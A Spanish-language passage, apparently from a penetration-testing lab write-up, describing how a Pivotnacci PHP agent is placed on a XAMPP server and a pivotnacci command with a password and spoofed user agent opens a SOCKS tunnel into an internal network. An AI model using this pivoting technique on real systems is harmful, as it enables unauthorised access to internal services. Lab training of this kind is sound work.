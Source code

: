| ![Imagen 20](images/20.png) |
|:----------: |
| Modificando agente PHP de Pivotnacci que será subido al directorio del XAMPP |

Posteriormente se ejecuta el script en python pivotnacci.py que levantará un Servidor Socks en la máquina del atacante el cual se puede utilizar con proxychains para acceder a servicios web que desde la VPN no se podía: 

```sh
pivotnacci http://192.168.56.110:8001/dashboard/info.php --password "c1b3rr353rv4" -A 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36' -v
```
